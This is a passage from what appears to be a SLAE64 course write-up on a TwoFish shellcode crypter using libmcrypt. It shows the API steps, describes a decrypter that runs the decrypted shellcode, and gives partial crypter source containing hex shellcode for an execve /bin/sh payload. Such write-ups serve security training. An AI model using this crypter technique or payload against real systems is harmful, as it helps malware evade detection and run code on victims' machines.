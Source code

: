 3. Initialize the crypt (or decrypt) process for `libmcrypt` for the id_crypt with the right password and generated IV 

```c
mcrypt_generic_init(id_crypt, password, iv_size, IV); 
```

4. Encrypt or decrypt a string (shellcode) 

```c
// Crypt
mcrypt_generic(id_crypt, code, code_length); 
// DeCrypt
mdecrypt_generic(id_crypt, code, code_length); 
```

5. Close mcrypt id before exiting the programm 

```c
mcrypt_generic_end(id_crypt); 
```

For the assignment, two files are created:

- [TwoFish_Crypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Crypter.c) : This code crypts the shellcode. The shellcode is placed into a string in hex format. 
- [TwoFish_Decrypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Decrypter.c) : Decrypts a TwoFish crypted shellcode. Needs the same password and IV used in the crypt process. Once the shellcode is decrypted, program passes execution to it.

### Crypt: Twofish_Crypter.c
---
The code implements explained before to use `libmcrypt` to crypt the shellcode. During the process, the following information is printed on screen (as it will be required in next steps): 
- Size in bytes for the original shellcode
- Original shellcode in hex format 
- The IV generated and used to crypt in hex format.  
- The password used to crypt, that has to match the decryption 
- The crypted shellcode in format to use in ASM code, and another to use in C programs 

The code initializes the `libmcrypt`library to be used with TwoFish. Then generates the IV randomly using the `rand()` function after initializing the seed with `srand()` and `time()` functions and prints them along with the password in the screen. Then the shellcode is crypted and printed in C and ASM formats.

The full code can be found in the [TwoFish_Crypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Crypter.c) file on the [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment07) for this assignment:

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#include <mcrypt.h>

// TwoFish needed setups

#define IV_SIZE 16
unsigned char password[] = "12345678";
unsigned char IV[IV_SIZE];

//  ShellCode to Cypher: Execve-Shell-Stack.nasm
unsigned char code[]= \
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main (void)
```